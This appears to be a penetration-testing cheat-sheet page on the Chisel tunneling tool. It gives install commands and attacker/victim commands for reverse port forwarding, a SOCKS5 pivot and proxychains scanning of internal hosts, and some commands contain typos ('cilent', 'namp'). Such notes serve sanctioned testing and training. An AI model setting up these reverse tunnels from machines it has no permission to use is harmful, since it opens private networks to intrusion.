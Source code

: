 # Tool - Chisel

## Commands

## Installation

```
# Source
go install github.com/jpillora/chisel@latest

# Docker
docker run --rm -it jpillora/chisel --help
```

### Help Menu

```
./chisel -h
```

### Run Server (Attacker Machine)

```
./chisel server -p 3333
```

### Run Client (Victim Machine)

```
./chisel32 client <server ip>:3333 5555:google.com:80
```

### Reverse Method

```
# Server
./chisel server -p 3333 --reverse

# Client
./chisel32 client <server ip>:3333 R:4444:<other machine ip>:80
```

### Socks5

```
# Server
./chisel server -p 3333 --reverse --socks5

# Client
./chisel cilent <server ip> R:5555:socks

# Edit the proxychains4.conf in attacker machine
sudo nano /etc/proxychains4.conf
Add -> socks5 127.0.0.1 5555 

# Scanning
proxychains4 namp -p80,21 <outer machine ip>
```

## REFERENCES

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)&#x20;
* [https://ap3x.github.io/posts/pivoting-with-chisel/](https://ap3x.github.io/posts/pivoting-with-chisel/)&#x20;
* [https://www.youtube.com/watch?v=srUUUkcYEwg](https://www.youtube.com/watch?v=srUUUkcYEwg)&#x20;

